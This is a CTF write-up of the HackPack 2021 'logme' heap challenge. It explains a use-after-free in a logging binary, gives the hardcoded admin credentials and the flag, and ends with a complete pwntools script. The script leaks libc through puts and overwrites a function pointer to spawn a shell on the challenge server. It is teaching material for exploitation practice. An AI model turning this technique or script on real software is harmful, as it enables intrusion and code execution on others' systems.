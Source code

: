 ```yaml
---
title: HackPack CTF 2021 - logme
categories: binex
author: sera
layout: post
---
```


# logme
A easy heap pwn challenge from HackPack 2021.

## Challenge
The challenge is a binary that implements a simple logging system. The binary does not have PIE.

The initial menu provides 3 options: logging in as admin, adding a log entry to a log index -- there are none valid on start -- and exit. We can get the admin credentials through simple reversing or everyone's friend `strings`: `administrator:S3CreTB4CkD0or`.

A log entry just consists of a message with a chosen size. The message is allocated on the heap with given size, written to disk, and freed.

Once logged in, you can create or delete logging indexes (basically categories) and dump the contents of a log. The log indexes are implemented as files on disk, but this is not relevant to solving the challenge so I won't go into further detail.

The number of valid indexes is stored in a local variable in `main` and the addressed of each index is stored in a global variable `INDEXES`. Indexes are allocated on the heap; and contain a size of 56. The name of each index is also seperately allocated on the heap with a larger size.

```cpp
struct index {
    void* padding[4];
    char* name;
    void (*printer)(char* name, int index);
}
```

The log dump function is implemented by calling the printer virtual pointer on each index.

## The bug

The vulnerability is that deleteIndex does not actually update the number of valid indexes despite freeing the index. This means that if we allocate a structure with the same size as a log index, it will overlap.

The function that lets a user add a log entry has a controllable allocation size; even though the message is freed after being written we can still use it to overwrite the old index's data.

## Exploitation

This bug can be exploited to call any function with with a controllable first argument. To create a UAF condition, we create two indexes and delete the 2nd. When inserting a message in the first, the tcache will reuse the old index's chunk if the size matches;

We will first leak the address of libc by creating a fake index with a first argument pointing to `puts` on the GOT and a virtual pointer to `puts` in the PLT. This will call `puts(addrof(puts))`.

The use after free will be triggered just by calling dumpIndexes. We can then leverage this libc leak to call `system(/bin/sh)` using the same method as before.

Addendum: I could not get `one_gadget` to work because the stack is not 16-byte aligned.

flag: `flag{B4k3d_1N_PwD_1S_N3v3R_4_Go0D_1D3A}`

## Code
```python
from pwn import *
import random
import string
import sys

r = remote("ctf2021.hackpack.club", 11002)
elf = ELF("./logme")

def admin_login():
    r.sendlineafter("> ", "1")
    r.sendlineafter(": ", "administrator")
    r.sendlineafter(": ", "S3CreTB4CkD0or")

def create_fake_index(fn, arg):
    r.sendlineafter("> ", "2")
    r.sendlineafter(": ", "0")
    r.sendlineafter(": ", "56")
    r.sendlineafter(": ", b"deadbeefbeefcafedeadbeefbeefcafedeadbeef" + p64(arg) + p64(fn))

admin_login()

# Create 2 indexes, free 2nd
r.sendlineafter("> ", "1")
r.sendlineafter(": ", ''.join(random.choices(string.ascii_uppercase + string.digits, k=4)))
r.sendlineafter("> ", "1")
r.sendlineafter(": ", ''.join(random.choices(string.ascii_uppercase + string.digits, k=4)))
r.sendlineafter("> ", "2")
r.sendlineafter(": ", "1")

# Log out
r.sendlineafter("> ", "4")

# Create message
create_fake_index(elf.plt['puts'], elf.got['puts'])

# Trigger uaf
admin_login()

r.sendlineafter("> ", "3")
r.sendlineafter(": ", "1")
leak = u64(r.recvuntil("> ").split(b"\n")[0].ljust(8, b"\x00"))
leak -= 0x080aa0
log.info("libc @ 0x%x" % leak)

r.sendline("4")
create_fake_index(leak + 0x04f550, leak + 0x1b3e1a)

# Trigger uaf
admin_login()

r.sendlineafter("> ", "3")
r.sendlineafter(": ", "1")
r.interactive()
```
